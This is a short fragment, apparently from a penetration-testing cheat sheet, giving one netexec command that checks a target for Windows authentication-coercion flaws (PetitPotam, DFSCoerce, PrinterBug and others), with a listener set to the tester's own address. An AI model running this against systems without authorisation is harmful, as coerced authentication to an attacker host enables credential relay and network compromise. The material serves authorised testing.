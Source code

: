 Check if the Target is vulnerable to any coerce vulns (PetitPotam, DFSCoerce, MSEven, ShadowCoerce and PrinterBug)
```
netexec smb target -u username -p password -M coerce_plus -o LISTENER=tun0_ip
```
